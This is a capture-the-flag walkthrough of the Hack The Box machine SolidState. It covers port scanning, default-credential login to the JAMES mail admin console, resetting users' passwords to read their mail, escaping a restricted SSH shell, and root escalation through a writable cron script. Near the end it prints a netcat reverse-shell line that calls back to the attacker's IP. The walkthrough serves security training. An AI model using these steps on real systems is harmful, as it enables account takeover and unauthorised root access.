

# HTB - SolidState

#### Ip: 10.10.10.51
#### Name: SolidState
#### Rating: Medium

----------------------------------------------------------------------


### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/SolidState]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.51 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-07 09:25 CDT
Nmap scan report for 10.10.10.51
Host is up (0.072s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
119/tcp  open  nntp
4555/tcp open  rsip

Nmap done: 1 IP address (1 host up) scanned in 7.82 seconds
```
Lets dive a bit deeper and scan these open ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/HTB/SolidState]
└─$ sudo nmap -sC -sV -T4 10.10.10.51 -p 22,25,80,110,119,4555
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-07 09:27 CDT
Nmap scan report for 10.10.10.51
Host is up (0.066s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 770084f578b9c7d354cf712e0d526d8b (RSA)
|   256 78b83af660190691f553921d3f48ed53 (ECDSA)
|_  256 e445e9ed074d7369435a12709dc4af76 (ED25519)
25/tcp   open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.35 [10.10.14.35])
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Home - Solid State Security
|_http-server-header: Apache/2.4.25 (Debian)
110/tcp  open  pop3    JAMES pop3d 2.3.2
119/tcp  open  nntp    JAMES nntpd (posting ok)
4555/tcp open  rsip?
| fingerprint-strings: 
|   GenericLines: 
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for 
|_    Login id:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4555-TCP:V=7.93%I=7%D=8/7%Time=64D0FF64%P=aarch64-unknown-linux-gnu
SF:%r(GenericLines,7C,"JAMES\x20Remote\x20Administration\x20Tool\x202\.3\.
SF:2\nPlease\x20enter\x20your\x20login\x20and\x20password\nLogin\x20id:\nP
SF:assword:\nLogin\x20failed\x20for\x20\nLogin\x20id:\n");
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 262.72 seconds
```

Checking out the website on port 80, we find a page for a security company:


But before digging into HTTP too much, I want to take a look at the James Remote Administraation tool on port 4555. 

After trying a couple combinations, I was able to sucessfully login with the credentials root:root. Fromm there I was also able to take a look at the users.

```text
┌──(ryan㉿kali)-[~/HTB/SolidState]
└─$ nc -nv 10.10.10.51 4555
(UNKNOWN) [10.10.10.51] 4555 (?) open
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
HELP
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```
Because I'm the root user, and I can see there's the command `setpassword`, lets see if we can change all the user's passwords, that way we can access their emails.

```text
setpassword james root
Password for james reset
setpassword thomas root
Password for thomas reset
setpassword john root
Password for john reset
setpassword mindy root
Password for mindy reset
setpassword mailadmin root
Password for mailadmin reset
```

Cool, now that these passwords have been updated to root, we should be able to access the user's emails. Checking the different users, we find someinteresting emails in Mindy's inbox:

```text
┌──(ryan㉿kali)-[~/HTB/SolidState]
└─$ telnet 10.10.10.51 110          
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
user mindy
+OK
pass root
+OK Welcome mindy
list
+OK 2 1945
1 1109
2 836
.
retr 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
From: mailadmin@localhost
Subject: Welcome

Dear Mindy,
Welcome to Solid State Security Cyber team! We are delighted you are joining us as a junior defense analyst. Your role is critical in fulfilling the mission of our orginzation. The enclosed information is designed to serve as an introduction to Cyber Security and provide resources that will help you make a smooth transition into your new role. The Cyber team is here to support your transition so, please know that you can call on any of us to assist you.

We are looking forward to you joining our team and your success at Solid State Security. 

Respectfully,
James
.
retr 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

Nice! These are SSH credentials. Unfortunately for us, the SSH access is in a restricted shell. But we can get around this by adding the `-t bash` flag as we login, which gives us a proper bash shell.


We can now grab the user.txt flag:


### Privilege Escalation

Lets transfer over a copy of Linpeas to the target to help with enumeration:



Interesting, Linpeas finds a couple of things in the `/opt` directory, and one file is owned by root, but can be modified and executed by us. This is juicy.


Checking out the file more, we can see it is a python script that removes files in the `/tmp` directory

```text
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```

Heading back to `/tmp` the most interesting thing here is actually what we don't see. Where did the copy of Linpeas go that we transferred earlier? 

```text
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cd /tmp
${debian_chroot:+($debian_chroot)}mindy@solidstate:/tmp$ ls -la
total 32
drwxrwxrwt  7 root       root       4096 Aug  7 12:06 .
drwxr-xr-x 22 root       root       4096 May 27  2022 ..
drwxrwxrwt  2 root       root       4096 Aug  7 10:25 .font-unix
drwxrwxrwt  2 root       root       4096 Aug  7 10:25 .ICE-unix
drwxrwxrwt  2 root       root       4096 Aug  7 10:25 .Test-unix
-r--r--r--  1 Debian-gdm Debian-gdm   11 Aug  7 10:25 .X1024-lock
drwxrwxrwt  2 root       root       4096 Aug  7 10:25 .X11-unix
drwxrwxrwt  2 root       root       4096 Aug  7 10:25 .XIM-unix
```

Because it's no longer there, I'm thinking that tmp.py in `/opt` is actually a cronjob that is running, which removed our copy of Linpeas.

We also know that the file is writable for us, so lets add a reverse shell to the file and see if we can get a response back.

Lets use:

```text
echo "os.system('/bin/nc -e /bin/bash 10.10.14.35 443')" >> /opt/tmp.py
```
After waiting a few minutes we caught a shell back as root on our listener!


Now we can grab the final root.txt flag:


Thanks for following along!

-Ryan
